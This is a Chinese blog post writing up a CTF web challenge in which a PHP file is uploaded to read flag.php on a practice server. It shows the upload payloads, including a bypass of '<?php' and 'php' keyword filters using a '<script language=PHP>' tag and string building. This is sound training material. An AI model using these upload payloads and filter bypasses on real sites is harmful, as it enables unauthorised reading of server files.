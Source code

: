 ```yaml
---

layout: post
title:  CTF竞赛-文件上传
subtitle: 本文为CTF web网络攻防方向，主要记录文件上传的题目
date:   2018-03-25 18:56:31 +0800
author: "Yewbs"
header-img:  'images/gallery/sappho-and-alcaeus.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Sappho and Alcaeus  
Creator: Lawrence Alma-Tadema  
Creator Lifespan: 1836/1912  
Creator Nationality: Dutch and British  
Date Created: 1881  
Physical Dimensions: w122 x h104.1402 cm  
Type: oil paintings; panel paintings  
Medium: oil on panel  
Artist: Sir Lawrence Alma-Tadema, R.A., O.M.  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #Upload#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【Upload】的题目：

![ctf-20180324144139821](/images/posts/ctf/ctf-20180324144139821.png)

## 解题过程

进入到靶场环境后，得到如下的初始页面：

![ctf-20180324144309647](/images/posts/ctf/ctf-20180324144309647.png)

根据题目的提示tips：flag在flag.php中，可以推测本题目是想通过上传文件，并通过执行文件读取flag.php源码，来获取flag。

先随意上传一张图片看看效果：

![ctf-20180324145416668](/images/posts/ctf/ctf-20180324145416668.png)

发现**【上传成功!】**是个超链接可以点击，点击后是查看上传文件，由此得出，可以通过文件上传来构造读取flag.php的源码。

先构造最简单直接的版本：

```php
<?php
$file = fopen("../flag.php", "r");
echo fread($file, filesize("../flag.php"));
fclose($file)
?>
```

上传后，得到

![ctf-20180324150835203](/images/posts/ctf/ctf-20180324150835203.png)

发现并没有执行，并且**php**后缀都被过滤掉了，尝试将 **?php**  使用 **<script>** 绕过，代码中的 **.php** 使用大写绕过：

```php
<script language=PHP>
$file = fopen("../flag.".strtolower("PHP"), "r");
echo fread($file, filesize("../flag.".strtolower("PHP")));
fclose($file)
</script>
```

上传后，得到：

![ctf-20180324151330884](/images/posts/ctf/ctf-20180324151330884.png)

此时并没有输出错误，说明执行成功了，**【F12】查看网页源码**：

![ctf-20180324151407995](/images/posts/ctf/ctf-20180324151407995.png)

至此，得到flag。

## 总结

本题目相对简单，主要考察php文件读取，以及简单的针对关键字过滤的绕过技巧。
